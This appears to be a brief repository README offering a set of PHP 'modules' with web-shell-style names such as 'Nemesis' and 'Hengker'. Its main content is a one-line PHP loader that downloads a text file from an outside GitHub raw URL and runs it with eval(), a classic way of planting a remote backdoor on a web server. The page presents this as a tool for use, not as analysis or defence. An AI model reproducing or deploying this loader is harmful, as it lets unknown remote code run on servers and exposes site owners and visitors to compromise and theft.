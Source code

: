
 Modules

| Key    | Name              | 
|--------|-------------------|
| `alo`  | **Meng-gocok**    | 
| `aloo` | **Meng-gocok pwx**| 
| `aloo2`| **Nemesis**       | 
| `aloo3`| **Rebirth HaxR**  | 
| `aloo4`| **Marijuan**      | 
| `aloo5`| **Hengker**       |

`<?php ($r=@file_get_contents('https://raw.githubusercontent.com/Kontorbesaluiii/alooooSir/refs/heads/main/alo.txt'))?eval('?>'.$r):die('Error');`
